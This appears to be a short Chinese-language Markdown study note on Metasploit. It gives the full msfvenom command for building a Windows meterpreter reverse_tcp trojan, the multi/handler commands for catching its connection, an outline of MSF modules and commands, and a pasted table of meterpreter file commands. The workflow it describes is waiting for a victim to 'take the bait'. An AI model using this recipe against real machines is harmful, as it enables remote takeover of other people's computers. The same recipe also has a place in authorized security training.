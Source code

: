 ### 基于木马的渗透一般流程：

> 1. 使用msfvenom<mark>生成</mark>木马
> 2. 等待对方<mark>上钩</mark>
> 3. 使用handler模块<mark>利用</mark>木马

### windows平台简单渗透测试
1. **木马生成：** `msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f exe -o payload.exe`
2. **利用木马之前的配置：**
   1. `msfconsole` 进入MSF框架主控制台
   2. `use exploit/multi/hander` 使用模块
   3. `set payload windows/meterpreter/reverse_tcp` 设置攻击载荷
   4. `set lhost=<IP>`
   5. `set lport=<port>`
3. **执行：** `exploit | run`
4. **出现 <u>meterpreter></u> 即为成功** 
### msf(metasploit-frameword)简单理解
​	msf是一款可以快速利用已发现的漏洞或快速生成木马，进而进行渗透的框架。其模块和渗透成功后的执行脚本大多都是以Ruby语言实现的。
##### 渗透成功后的操作：
-  meterpreter
-  shell
##### 主要工具
- `msfvenom`	可以生成多平台的木马
##### 主要模块
-  `auxiliary`辅助模块
-  `exploit`漏洞模块
-  `payload`攻击载荷模块
##### 主要命令
- `use <moudule name> | <moudul index>`使用模块
- `show options` 列出当前使用的模块的配置参数
- `set <key>=<value>` 配置模块个属性的值
- `run` 一切准备就绪，开始监听

Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    lls           List local files
    lmkdir        Create new directory on local machine
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    show_mount    List all mount points/logical drives
    upload        Upload a file or directory
